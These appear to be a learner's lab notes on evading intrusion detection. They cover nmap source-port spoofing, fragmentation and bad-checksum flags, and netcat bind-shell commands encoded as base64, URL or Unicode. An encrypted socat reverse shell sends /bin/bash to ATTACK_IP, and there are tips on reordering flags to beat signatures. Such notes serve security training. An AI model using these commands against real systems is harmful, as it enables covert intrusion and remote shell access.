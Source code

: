 ### Tools: nmap, netcat/socat

# EVASION VIA PROTOCOL MANIPULATION

### 1) Relying on a different protocol

### 2) Manipulating (source) TCP/UDP Port

### 3) Using session splicing (IP Packet fragmentation)

### 4) Sending invalid packets

## 1st technique example

#### 1) nc -lvnp 25 (Gives the imp[ression that it is a usual TCP connection with an SMTP server)

#### Counter: Deep Packet Inspection (DPI)

#### 2) nc -ulvnp 162 (UDP Connection)

#### Counter: DPI

# 2nd Technique example

#### 1) nmap -sS -Pn -g 80 -F TARGET_IP (HTTP Server spoof)

#### 2) nmap -sU -Pn -g 53 -F TARGET_IP (DNS Server spoof)

#### 3) Can be used with netcat as well

# 3rd Technique example

### nmap options: 

#### -f = Set the data in IP packet to 8 bytes

#### -ff = To limit the data in the IP packet to 16 bytes at most

#### --mtu SIZE = Custom data size (Multiple of 8)

# 4th Technique example

### nmap options:

#### --badsum

#### --scanflags: URG ACK PSH RST SYN FIN (Custom TCP flag combinations)

# EVASION VIA PAYLOAD MANIPULATION

### 1) Obfuscating and encoding the payload

### 2) Encrypting the communication channel

### 3) Modifying the shellcode

# 1st Technique example

### 1) Encode to Base64 format

#### 1: cat input.txt

#### 2: nc -lvnp 1234 -e /bin/bash

#### 3: base64 input.txt

### 2) URL Encoding

#### urlencode nc -lvnp 1234 -e /bin/bash

### 3) Escaped Unicode

### Tool: Cyberchef

#### 1) Search "Escape Unicode Characters"

#### 2) Drag to recipe

#### 3) Checkmark "encode all chars with a prefix of \u"

#### 4) Checkmark "Uppercase hex with a padding of 4"

## 2nd Technique example

### Encrypted reverse shell steps:

### 1) Create the key

### 2) Listen on the attacker's machine

### 3) Connect to the attacker's machine

#### 1) openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.example.gr/O=example COM/C=GR' -nodes -keyout gr-reverse.key -out gr-reverse.crt

#### 2) cat gr-reverse.key gr-reverse.crt > gr-reverse.pem

#### 3) socat -d -d OPENSSL-LISTEN:4443,cert=gr-reverse.pem,verify=0,fork STDOUT

#### 4) Victim: socat OPENSSL:ATTACK_IP:4443,verify=0 EXEC:/bin/bash

## 3rd Technique example

#### 1) Add an extra white space (nc -)

#### 2) Try nc/ncat/socat

#### 3) Change the order of the flags (nc -lvnp TARGETED) (nc -vnlp EVADED) 
